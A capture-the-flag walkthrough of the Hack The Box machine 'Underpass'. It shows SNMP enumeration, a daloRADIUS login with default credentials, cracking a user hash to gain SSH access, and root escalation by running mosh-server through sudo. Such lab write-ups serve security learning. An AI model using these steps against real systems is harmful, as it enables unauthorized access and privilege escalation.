 ```yaml
---
title: Underpass
layout: post
released: 2024-12-21
creators: dakkmaddy
pwned: true
tags: 
  - os/linux
  - diff/easy
category:
  - HTB
description: Underpass is running a default apache website. If we check udp ports we find that a daloradius is running. Looking through the source of daloradius we find a couple of login pages and default credentials. Using these credentials we login to a dashboard and find credentials for svcMosh. We use his credentials to ssh on the box. svcMosh can run Mosh-server as root which we can use to spawn a root terminal. 
image: https://labs.hackthebox.com/storage/avatars/456a4d2e52f182847fb0a2dba0420a44.png
cssclass: custom_htb
---
```

![Underpass icon](https://labs.hackthebox.com/storage/avatars/456a4d2e52f182847fb0a2dba0420a44.png)

# Information Gathering
As usual let's start off with an `nmap` scan.
```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```
When we visit the website all we're greeted with is the default `apache` website.
![Default apache website](/assets/img/img_Underpass/Underpass-1746437564868.png)

So let's scan `UDP` ports.
```
PORT    STATE SERVICE VERSION
161/udp open  snmp    SNMPv1 server; net-snmp SNMPv3 server (public)
| snmp-info:
|   enterprise: net-snmp
|   engineIDFormat: unknown
|   engineIDData: c7ad5c4856d1cf6600000000
|   snmpEngineBoots: 31
|_  snmpEngineTime: 2d15h28m13s
| snmp-sysdescr: Linux underpass 5.15.0-126-generic #136-Ubuntu SMP Wed Nov 6 10:38:22 UTC 2024 x86_64
|_  System uptime: 2d15h28m13.71s (22849371 timeticks)
Service Info: Host: UnDerPass.htb is the only daloradius server in the basin!
```

Looking up the term `daloradius` we see that it's a web platform to manage ISP deployments.

If we try to visit: [http://10.10.11.48/daloradius](http://10.10.11.48/daloradius). We get a forbidden webpage.

![Daloradius Forbidden](/assets/img/img_Underpass/Underpass-1746440428813.png)

Since [daloradius](https://github.com/lirantal/daloradius) is open source, we can look through directories in the source and check if they exist on the box.

Looking through the source we can see a login page: `/app/users/login.php`
![Daloradius Login Path](/assets/img/img_Underpass/Underpass-1746440607075.png)

If we visit [http://10.10.11.48/daloradius/app/users/login.php](http://10.10.11.48/daloradius/app/users/login.php) we are greeted by said login page.

![Daloradius User Login Page](/assets/img/img_Underpass/Underpass-1746440648730.png)

# User
Looking through the [wiki](https://github.com/lirantal/daloradius/wiki/Installing-daloRADIUS#testing-the-infrastructure) we find the default credentials: `administrator`:`radius`. However, if we try this we see that we cannot login.

![Cannot Login Daloradius User](/assets/img/img_Underpass/Underpass-1746440793774.png)

If we take a look through the [wiki](https://github.com/lirantal/daloradius/wiki/Installing-daloRADIUS#installing-daloradius) again we find that it is mentioned in the previous sections the different endpoints for `operator` and `user`.

```bash
/etc/apache2/envvars
# daloRADIUS users interface port
export DALORADIUS_USERS_PORT=80

# daloRADIUS operators interface port
export DALORADIUS_OPERATORS_PORT=8000

# daloRADIUS package root directory
export DALORADIUS_ROOT_DIRECTORY=/var/www/daloradius  

# daloRADIUS administrator's email
export DALORADIUS_SERVER_ADMIN=admin@daloradius.local
```

Let's take a look at the source code again and find the directory `/app/operators/login.php`.

![Daloradius Operators Path](/assets/img/img_Underpass/Underpass-1746441057718.png)

If we visit [http://10.10.11.48/daloradius/app/operators/login.php](http://10.10.11.48/daloradius/app/operators/login.php) we are greeted with the exact same login page.

![Daloradius Operators Login](/assets/img/img_Underpass/Underpass-1746442054856.png)

If we attempt to use the same default credentials: `administrator`:`radius`. We get logged into the dashboard.

![Daloradius Dashboard](/assets/img/img_Underpass/Underpass-1746442166170.png)

Looking around the app if we go to `management` and select `list users`. We can see the user: `svcMosh`.
![Daloradius Users List](/assets/img/img_Underpass/Underpass-1746442236050.png)

We're provided with what looks to be a password hash of `412DD4759978ACFCC81DEAB01B382403`. Let's crack it with [crackstation](https://crackstation.net).

![Crackstation cracking the password](/assets/img/img_Underpass/Underpass-1746442317070.png)

We find we successfully get the credentials: 

`svcMosh`:`underwaterfriends`

Attempting to use these credentials to `ssh` into the machine is successful!

```bash
 ssh svcMosh@10.10.11.48
The authenticity of host '10.10.11.48 (10.10.11.48)' can't be established.
ED25519 key fingerprint is SHA256:zrDqCvZoLSy6MxBOPcuEyN926YtFC94ZCJ5TWRS0VaM.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.48' (ED25519) to the list of known hosts.
svcMosh@10.10.11.48's password:
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-126-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Mon May  5 10:51:36 AM UTC 2025

  System load:  0.0               Processes:             226
  Usage of /:   61.3% of 6.56GB   Users logged in:       0
  Memory usage: 11%               IPv4 address for eth0: 10.10.11.48
  Swap usage:   0%


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Mon May  5 08:03:59 2025 from 10.10.14.24
svcMosh@underpass:~$
```

Just like that we have `User`!

```bash
svcMosh@underpass:~$ ls -la
total 36
drwxr-x--- 5 svcMosh svcMosh 4096 Jan 11 13:29 .
drwxr-xr-x 3 root    root    4096 Dec 11 16:06 ..
lrwxrwxrwx 1 root    root       9 Sep 22  2024 .bash_history -> /dev/null
-rw-r--r-- 1 svcMosh svcMosh  220 Sep  7  2024 .bash_logout
-rw-r--r-- 1 svcMosh svcMosh 3771 Sep  7  2024 .bashrc
drwx------ 2 svcMosh svcMosh 4096 Dec 11 16:06 .cache
drwxrwxr-x 3 svcMosh svcMosh 4096 Jan 11 13:29 .local
-rw-r--r-- 1 svcMosh svcMosh  807 Sep  7  2024 .profile
drwxr-xr-x 2 svcMosh svcMosh 4096 Dec 11 16:06 .ssh
-rw-r----- 1 root    svcMosh   33 May  2 18:02 user.txt
```

# Root
Checking for our `sudo` permission we notice we are able to run `mosh-server` as `root`.

```bash
svcMosh@underpass:~$ sudo -l
Matching Defaults entries for svcMosh on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User svcMosh may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/bin/mosh-server
```

[mosh](https://mosh.org/) server is part of the `Mobile Shell` suite which is a remote terminal application that runs through `UDP`.

Looking at the [usage](https://mosh.org/#usage) for `mosh` we can see that we can specify the server binary.

![Mosh usage](/assets/img/img_Underpass/Underpass-1746442684093.png)

Let's try to do this to run mosh using the following command.

```bash
mosh --server="sudo /usr/bin/mosh-server" localhost
```

We get the following output.

```bash
mosh --server="sudo /usr/bin/mosh-server" localhost
The authenticity of host 'localhost (<no hostip for proxy command>)' cant be established.
ED25519 key fingerprint is SHA256:zrDqCvZoLSy6MxBOPcuEyN926YtFC94ZCJ5TWRS0VaM.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'localhost' (ED25519) to the list of known hosts.
Warning: SSH_CONNECTION not found; binding to any interface.
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-126-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Mon May  5 10:58:19 AM UTC 2025

  System load:  0.0               Processes:             233
  Usage of /:   61.2% of 6.56GB   Users logged in:       1
  Memory usage: 12%               IPv4 address for eth0: 10.10.11.48
  Swap usage:   0%


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings



root@underpass:~#
```

Just like that we have root!